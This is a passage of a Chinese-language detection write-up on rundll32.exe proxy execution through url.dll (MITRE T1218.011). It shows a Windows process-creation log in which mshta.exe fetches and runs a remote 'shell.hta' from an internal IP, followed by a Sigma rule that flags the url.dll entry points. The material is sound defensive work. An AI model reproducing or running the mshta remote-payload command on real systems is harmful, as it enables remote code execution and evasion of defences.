 **分析**：
- 日志记录`rundll32.exe`发起HTTP连接，下载`shell.hta`。

### Windows安全日志（Event ID 4688：进程创建）

```xml
日志名称: Security
来源: Microsoft-Windows-Security-Auditing
日期: 2023/10/01 10:00:00
事件 ID: 4688
任务类别: Process Creation
级别: 信息
用户: N/A
计算机: 12306Br0-PC
描述:
已创建新进程。

进程信息:
  新进程 ID: 0x8f8
  新进程名称: C:\Windows\SysWOW64\mshta.exe
  令牌提升类型: TokenElevationTypeDefault (1)
  创建者进程 ID: 0xa30
  创建者进程名称: C:\Windows\SysWOW64\rundll32.exe
  进程命令行: "C:\Windows\System32\mshta.exe" http://192.168.126.146/shell.hta
```

**分析**：
- 日志记录`mshta.exe`由`rundll32.exe`启动，运行远程HTA文件。

## 检测规则/思路

### Sigma规则

```yaml
title: 检测Rundll32.exe使用url.dll执行可疑Payload
description: Detects suspicious execution of rundll32.exe with url.dll to proxy execute payloads.
status: experimental
date: 2023/10/01
references:
  - https://attack.mitre.org/techniques/T1218/011/
logsource:
  product: windows
  category: process_creation
detection:
  selection:
    EventID:
      - 4688 # Windows安全日志
      - 1    # Sysmon日志
    Image|endswith: '\rundll32.exe'
    CommandLine|contains:
      - 'url.dll,OpenURL'
      - 'url.dll,OpenURLA'
      - 'url.dll,FileProtocolHandler'
  condition: selection
fields:
  - Image
  - CommandLine
  - ParentImage
falsepositives:
  - Legitimate use of url.dll for URL handling
level: high
tags:
  - attack.defense_evasion
  - attack.execution
```